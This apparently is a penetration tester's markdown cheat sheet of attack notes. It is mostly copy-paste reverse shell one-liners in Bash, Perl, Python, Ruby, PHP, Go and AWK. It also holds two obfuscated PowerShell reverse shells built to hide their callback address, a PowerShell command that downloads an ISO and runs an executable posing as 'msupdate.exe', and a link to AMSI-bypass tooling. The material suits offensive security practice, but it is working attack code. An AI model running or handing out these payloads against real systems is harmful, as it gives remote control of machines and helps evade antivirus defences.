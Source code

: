 ```yaml
---
title: General Notes
updated: 2023-08-02 01:13:36Z
created: 2019-11-26 21:41:16Z
---
```


## Pre-requisites for runninging exploits

- Check the version of the operating system.
- Check the software version.
- Check if there is exploit for it (Searchsploit, ExploitDB, Google, etc).
- If you have an exploit, is there a Metasploit Module for it?


## Default Credentials

- https://cirt.net/passwords
- https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials

## Reverse Shells

## Online Reverse Shell Generators:
- https://www.revshells.com/
- https://shellgenerator.github.io/

## Hosting Revshells Locally: 
1. git clone https://github.com/0dayCTF/reverse-shell-generator
2. docker build -t reverse_shell_generator .
3. docker run -d -p 80:80 reverse_shell_generator

## Other Reverse Shell:

Bash: 

- bash -i >& /dev/tcp/IP ADDRESS/8080 0>&1

Perl:

```
perl -e 'use Socket;$i="IP ADDRESS";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Python: 

- python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP ADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

IPv6: 

- python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' 

Ruby:

- ruby -rsocket -e'f=TCPSocket.open("IP ADDRESS",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
- ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'


PHP:

Pentest Monkey Reverse Shell for PHP:
In Kali: 

/usr/share/webshells/php/php-reverse-shell.php

Link: http://pentestmonkey.net/tools/web-shells/php-reverse-shell

- php -r '$sock=fsockopen("IP ADDRESS",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

Windows Powershell Oneliner: 

Note: To change the IP Address replace the number values in Check.for.Callback.Connection. To change the port pick your own numeric values to equal the number you want your shell to callback to you. 

```
# Offsec-callback-v2
$ezYSZf = & ((Get-Command "New-ScheduledJobOption").name[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})("Check.for.Callback.Connection".Replace("Check",127).Replace("For",0+255-255).Replace("Callback", 0+234-234).Replace("Connection",0+0+0+1),(443*2-443));
$VXm = $ezYSZf.GetStream();
# checkin to target
[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};
while(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)
{;
$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);
$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );
# AND
$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));
$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);
$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()
};
Start-Sleep -Seconds 5
# checkout of target
$ezYSZf.Close()
```

Powershell ISO Oneliner:
```
powershell -c "(New-Object System.Net.WebClient).DownloadFile('https://172.21.1.0/windows.iso', 'C:\Windows\Tasks\windows.iso'); $MountedImage = Mount-DiskImage -ImagePath 'C:\Windows\Tasks\windows.iso' -PassThru; Start-Process -FilePath ($MountedImage | Get-Volume).DriveLetter + ':\msupdate.exe'; dismount-DiskImage -ImagePath $MountedImage.ImagePath"
```

Linux Powershell Oneliner:

```
$ezYSZf = & (("New-ScheduledJobOption")[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})("Stay.Off.Ronins.Lawn".Replace("Stay",127).Replace("Off",0+255-255).Replace("Ronins", 0+1-1).Replace("Lawn",0+0+0+1),(443*2-443));
$VXm = $ezYSZf.GetStream();
[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};
while(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)
{;
$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);
$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );
$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));
$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);
$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()
};
$ezYSZf.Close()
```

Golang: 

- echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

AWK: 

- awk 'BEGIN {s = "/inet/tcp/0/IP ADDRESS/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null


Other Reverse Shell: 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


## Other Resources 

- Amsi-Bypass-Powershell: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell 






